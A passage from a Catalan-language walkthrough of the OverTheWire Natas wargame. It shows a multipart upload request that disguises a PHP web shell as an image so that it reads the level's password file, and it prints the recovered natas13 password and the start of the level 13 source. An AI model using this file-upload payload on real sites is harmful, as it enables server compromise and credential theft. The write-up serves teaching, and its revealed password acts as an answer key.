 ````

------WebKitFormBoundaryrgvYZeoUMqd7Uzw5

Content-Disposition: form-data; name="filename"

xq6qamzrfv.php

------WebKitFormBoundaryrgvYZeoUMqd7Uzw5

Content-Disposition: form-data; name="uploadedfile"; filename="image.jpg"

Content-Type: image/jpeg`
```

``<? echo (exec('cat /etc/natas_webpass/natas13')); ?>``

``------WebKitFormBoundaryrgvYZeoUMqd7Uzw5--``


**L’error** és que l’string random és genera al costat del client no al servidor. Ara ja tenim la contrasenya de natas13:

![image](https://github.com/PolMuri/OverTheWire---Natas/assets/109922379/458efacf-5b54-46bd-9a8a-b6ec21957a2f)


La contrasenya de natas13:

``lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9``

**L’error** és generar al cantó del client l’string random en comptes de al servidor.

-**Level 13**

Ara sí que ens comprova la imatge, anem a comprovar el codi font:

<html>  
<head>  
  
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">  
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />  
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />  
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>  
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>  
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>  
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>  
<body>  
<h1>natas13</h1>  
<div id="content">  
For security reasons, we now only accept image files!<br/><br/>  
  
<?php  
  
function genRandomString() {  
    $length = 10;  
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";  
    $string = "";  
  
    for ($p = 0; $p < $length; $p++) {  
        $string .= $characters[mt_rand(0, strlen($characters)-1)];  
    }  
  
````